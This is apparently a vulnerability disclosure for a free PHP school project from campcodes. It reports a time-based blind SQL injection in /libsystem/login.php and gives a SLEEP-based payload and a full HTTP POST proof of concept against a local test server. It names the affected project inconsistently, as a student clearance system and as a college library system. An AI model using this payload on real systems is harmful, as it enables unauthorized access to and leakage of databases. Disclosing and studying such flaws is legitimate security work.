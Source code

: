 # Vulnerability Description

The Web-based Student Clearance System in PHP Free Source Code  (It is an open source project from [https://www.campcodes.com/](https://www.campcodes.com/)) has SQL injection vulnerabilities, which can lead to database information leakage.

1. BUG_Author: Jing Xiong

2. vendors: [Online College Library System using PHP/MySQLi Source Code](https://www.campcodes.com/projects/php/librarysystemusingphp/);

3. The program is built using the PHP/8.1.10 version;

4. Vulnerability location:  /libsystem/login.php

# Vulnerability Verification

[+] Payload:

```java
student=RIDM' AND (SELECT 8259 FROM (SELECT(SLEEP(5)))rJcs) AND 'okDV'='okDV&login=tiZF
```

POC：

```js
POST /login.php HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 134
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=4dq7vcodkmkfafhok7fkld9s4r
Host: 127.0.0.1:8081
Origin: http://127.0.0.1:8081
Referer: http://127.0.0.1:8081/index.php
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
sec-ch-ua: "Google Chrome";v="119", "Chromium";v="119", "Not?A_Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"

student=student%3DRIDM%27+AND+%28SELECT+8259+FROM+%28SELECT%28SLEEP%285%29%29%29rJcs%29+AND+%27okDV%27%3D%27okDV%26login%3DtiZF&login=
```

## How to verify

Build the vulnerability environment according to the steps provided by the source code author and execute the poc provided above：
![image](./sql1.png)


